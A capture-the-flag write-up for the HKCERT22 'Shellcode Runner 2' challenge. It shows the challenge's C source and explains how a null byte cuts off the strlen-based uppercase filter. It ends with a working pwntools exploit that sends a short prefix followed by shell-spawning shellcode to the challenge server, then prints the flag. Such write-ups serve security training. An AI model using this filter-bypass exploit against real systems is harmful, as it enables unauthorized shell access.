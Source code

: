 # Shellcode Runner 2
## Challenge Details
![](assets/shellcode_runner2_details.png)

source:
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <ctype.h>
#include <string.h>

typedef void (*void_fn)(void);

void _abort(char const * err_msg) {
    printf("%s", err_msg);
    exit(1);
}

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  alarm(60);
}

int is_all_upper(char* s) {
    for (int i=0; i<strlen(s); i++)
        if (!isupper(s[i]) && !isdigit(s[i]) && s[i] != ' ')
            return 0;
    return 1;
}

int main() {
    int SIZE = 100;
    int readed_len = 0;
    unsigned long rbx, rcx, rdx, rbp, rsp, rsi, rdi, r8, r9, r10, r11, r12, r13;
    char *shellcode;
    init();

    shellcode = (char*) mmap((void *)0x13370000, SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);

    if ((long)shellcode == -1)
        _abort("mmap failed!\n");
    memset(shellcode, '\0', SIZE);

    printf("\nInput your shellcode here (max: 100): ");
    if ((readed_len = read(0, shellcode, SIZE - 1)) == 0)
        _abort("read failed!\n");
    
    if (shellcode[readed_len-1] == '\n') {
        shellcode[readed_len-1] = '\0';
    }
    
    if (is_all_upper(shellcode) == 0) {
        _abort("invalid shellcode!\n");
    }

    asm(
        "movq %%rbx, %0;"
        "movq %%rcx, %1;"
        "movq %%rdx, %2;"
        "movq %%rbp, %3;"
        "movq %%rsp, %4;"
        "movq %%rsi, %5;"
        "movq %%rdi, %6;"
        "movq %%r8, %7;"
        "movq %%r9, %8;"
        "movq %%r10, %9;"
        "movq %%r11, %10;"
        "movq %%r12, %11;"
        "movq %%r13, %12;"
        : "=r" (rbx), "=r" (rcx), "=r" (rdx), "=r" (rbp), "=r" (rsp), "=r" (rsi), "=r" (rdi), "=r" (r8), "=r" (r9), "=r" (r10), "=r" (r11), "=r" (r12), "=r" (r13): : "memory"
    );
    printf("Before running the shellcode:\nrax = %p\nrbx = 0x%lx\nrcx = 0x%lx\nrdx = 0x%lx\nrbp = 0x%lx\nrsp = 0x%lx\nrsi = 0x%lx\nrdi = 0x%lx\nr8 = 0x%lx\nr9 = 0x%lx\nr10 = 0x%lx\nr11 = 0x%lx\nr12 = 0x%lx\nr13 = 0x%lx\n",
        shellcode, rbx, rcx, rdx, rbp, rsp, rsi, rdi, r8, r9, r10, r11, r12, r13);
    asm(
        "movq %0, %%rbx;"
        "movq %1, %%rcx;"
        "movq %2, %%rdx;"
        "movq %3, %%rbp;"
        "movq %4, %%rsp;"
        "movq %5, %%rsi;"
        "movq %6, %%rdi;"
        "movq %7, %%r8;"
        "movq %8, %%r9;"
        "movq %9, %%r10;"
        "movq %10, %%r11;"
        "movq %11, %%r12;"
        "movq %12, %%r13;"
        :: "m"(rbx), "m"(rcx), "m"(rdx), "m"(rbp), "m"(rsp), "m"(rsi), "m"(rdi), "m" (r8), "m" (r9), "m" (r10), "m" (r11), "m" (r12), "m" (r13) 
    );
    ((void_fn) shellcode)();
}
```

## Solution
You can see the shellcode will be checked using the `is_all_upper()` function, which means that only upper case alphanumerical input is accpeted. 

After searching on the Internet, I found several example of uppercase alphanumerical shellcodes. However, all of the suggested shellcodes are larger than 100 bytes. Hence, they cannot be used directly.

Later, I further investigated into the `is_all_upper()`. I found that the size of shellcode is checked using `strlen()`, which means that the checking will end if it sees the `0x00` characters. As `read` function does not stop at any null byte, I can include a null byte to stop the checking and append the normal shellcode at the end of the null byte.

Since I don't know whether `0x00` is a valid instruction, I searched online and found [this site](https://nets.ec/Alphanumeric_shellcode). It has an instruction `xor [dword], %eax` which is `'5'`. I think it can mov the value of the null byte into the eax. Also, to prevent bad instruction, I pad some `NOP` behind the null byte. And I successfully get the shell using this code:
```python
from pwn import *
from pwnlib import encoders
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

r = remote('chal.hkcert22.pwnable.hk', 28130)

r.recvuntil(b'(max: 100): ')
r.send(b'\x35\x00\x90\x90\x90' + asm(shellcraft.sh()))
r.interactive()
```

## Flag
`
hkcert22{d41d8cd98f00b204e9800998ecf8427e33a}
`